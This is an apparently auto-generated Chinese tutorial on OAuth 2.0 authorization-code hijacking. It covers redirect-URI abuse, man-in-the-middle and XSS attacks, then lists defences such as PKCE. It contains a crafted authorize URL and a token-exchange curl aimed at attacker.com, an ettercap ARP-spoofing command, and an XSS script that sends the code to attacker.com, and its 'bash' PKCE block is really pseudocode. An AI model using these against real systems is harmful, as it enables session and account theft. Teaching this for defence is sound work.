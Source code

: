 # OAuth2.0授权码劫持的攻击技术

## 1. 技术原理解析

### 1.1 OAuth2.0授权码流程概述

OAuth2.0是一种广泛使用的授权框架，允许第三方应用在用户授权下访问用户资源。授权码流程（Authorization Code Flow）是OAuth2.0中最常用的流程之一，其基本步骤如下：

1. **用户请求授权**：用户通过客户端应用访问资源服务器，客户端应用将用户重定向到授权服务器。
2. **授权服务器验证用户**：授权服务器验证用户身份，并询问用户是否同意授权。
3. **授权码返回**：用户同意授权后，授权服务器生成一个授权码（Authorization Code）并通过重定向URI返回给客户端应用。
4. **客户端获取访问令牌**：客户端应用使用授权码向授权服务器请求访问令牌（Access Token）。
5. **访问资源**：客户端应用使用访问令牌访问受保护的资源。

### 1.2 授权码劫持的原理

授权码劫持（Authorization Code Interception）是一种攻击技术，攻击者通过窃取或伪造授权码，获取用户的访问令牌，从而非法访问用户的资源。攻击者通常利用以下漏洞或弱点：

- **重定向URI未验证**：如果授权服务器未正确验证重定向URI，攻击者可以伪造重定向URI，将授权码发送到攻击者控制的服务器。
- **授权码泄露**：如果授权码在传输过程中未加密，攻击者可以通过中间人攻击（MITM）窃取授权码。
- **客户端应用漏洞**：如果客户端应用存在漏洞，攻击者可以通过XSS、CSRF等攻击手段获取授权码。

## 2. 常见攻击手法和利用方式

### 2.1 重定向URI劫持

**攻击原理**：攻击者伪造重定向URI，将授权码发送到攻击者控制的服务器。

**攻击步骤**：
1. **构造恶意URI**：攻击者构造一个恶意URI，指向攻击者控制的服务器。
2. **诱骗用户点击**：攻击者通过钓鱼邮件、恶意网站等方式诱骗用户点击恶意URI。
3. **获取授权码**：用户点击恶意URI后，授权服务器将授权码发送到攻击者控制的服务器。
4. **获取访问令牌**：攻击者使用授权码向授权服务器请求访问令牌。

**实验环境搭建**：
- **授权服务器**：使用OAuth2.0授权服务器（如Keycloak、Auth0）。
- **客户端应用**：使用OAuth2.0客户端库（如Spring Security OAuth2）。
- **攻击者服务器**：使用简单的HTTP服务器（如Python的`http.server`）。

**实战演练**：
1. **配置授权服务器**：在授权服务器中配置客户端应用，允许重定向URI为`http://attacker.com/callback`。
2. **构造恶意URI**：构造一个恶意URI，如`http://auth-server.com/authorize?client_id=client-id&redirect_uri=http://attacker.com/callback&response_type=code&state=state`。
3. **诱骗用户点击**：通过钓鱼邮件或恶意网站诱骗用户点击恶意URI。
4. **获取授权码**：在攻击者服务器上捕获授权码。
5. **获取访问令牌**：使用授权码向授权服务器请求访问令牌。

```bash
# 使用curl获取访问令牌
curl -X POST http://auth-server.com/token \
  -d "grant_type=authorization_code" \
  -d "code=authorization-code" \
  -d "redirect_uri=http://attacker.com/callback" \
  -d "client_id=client-id" \
  -d "client_secret=client-secret"
```

### 2.2 中间人攻击（MITM）

**攻击原理**：攻击者通过中间人攻击窃取授权码。

**攻击步骤**：
1. **劫持网络流量**：攻击者通过ARP欺骗、DNS欺骗等手段劫持用户与授权服务器之间的网络流量。
2. **窃取授权码**：攻击者捕获用户与授权服务器之间的通信，窃取授权码。
3. **获取访问令牌**：攻击者使用授权码向授权服务器请求访问令牌。

**实验环境搭建**：
- **网络环境**：使用虚拟机或物理机搭建局域网环境。
- **工具**：使用Wireshark、Ettercap等工具进行网络流量捕获和分析。

**实战演练**：
1. **配置网络环境**：在局域网中配置用户、授权服务器和攻击者机器。
2. **启动中间人攻击**：使用Ettercap进行ARP欺骗，劫持用户与授权服务器之间的网络流量。
3. **捕获授权码**：使用Wireshark捕获网络流量，分析HTTP请求，找到授权码。
4. **获取访问令牌**：使用授权码向授权服务器请求访问令牌。

```bash
# 使用Ettercap进行ARP欺骗
ettercap -T -i eth0 -M arp:remote /192.168.1.1// /192.168.1.2//
```

### 2.3 XSS攻击

**攻击原理**：攻击者通过XSS漏洞注入恶意脚本，窃取授权码。

**攻击步骤**：
1. **发现XSS漏洞**：攻击者发现客户端应用中的XSS漏洞。
2. **注入恶意脚本**：攻击者通过XSS漏洞注入恶意脚本，窃取授权码。
3. **获取访问令牌**：攻击者使用授权码向授权服务器请求访问令牌。

**实验环境搭建**：
- **客户端应用**：使用存在XSS漏洞的Web应用。
- **工具**：使用Burp Suite、XSS Hunter等工具进行XSS漏洞检测和利用。

**实战演练**：
1. **发现XSS漏洞**：使用Burp Suite扫描客户端应用，发现XSS漏洞。
2. **注入恶意脚本**：通过XSS漏洞注入恶意脚本，如`<script>document.location='http://attacker.com/steal?code='+document.location.hash.split('=')[1];</script>`。
3. **窃取授权码**：在攻击者服务器上捕获授权码。
4. **获取访问令牌**：使用授权码向授权服务器请求访问令牌。

```javascript
// 恶意脚本示例
<script>
  document.location='http://attacker.com/steal?code='+document.location.hash.split('=')[1];
</script>
```

## 3. 防御措施

### 3.1 验证重定向URI

授权服务器应严格验证重定向URI，确保其与客户端应用注册的URI一致。

### 3.2 使用HTTPS

确保所有通信都通过HTTPS进行，防止中间人攻击。

### 3.3 防止XSS和CSRF

客户端应用应采取有效的措施防止XSS和CSRF攻击，如输入验证、输出编码、使用CSRF令牌等。

### 3.4 使用PKCE

使用PKCE（Proof Key for Code Exchange）增强授权码流程的安全性，防止授权码劫持。

```bash
# 使用PKCE的示例
code_verifier = generate_code_verifier()
code_challenge = generate_code_challenge(code_verifier)

# 在授权请求中包含code_challenge
http://auth-server.com/authorize?client_id=client-id&redirect_uri=http://client.com/callback&response_type=code&state=state&code_challenge=code_challenge&code_challenge_method=S256
```

## 4. 总结

OAuth2.0授权码劫持是一种严重的安全威胁，攻击者可以通过多种手段窃取或伪造授权码，获取用户的访问令牌。通过严格验证重定向URI、使用HTTPS、防止XSS和CSRF、以及使用PKCE等措施，可以有效防御授权码劫持攻击。

---

*文档生成时间: 2025-03-13 20:15:28*
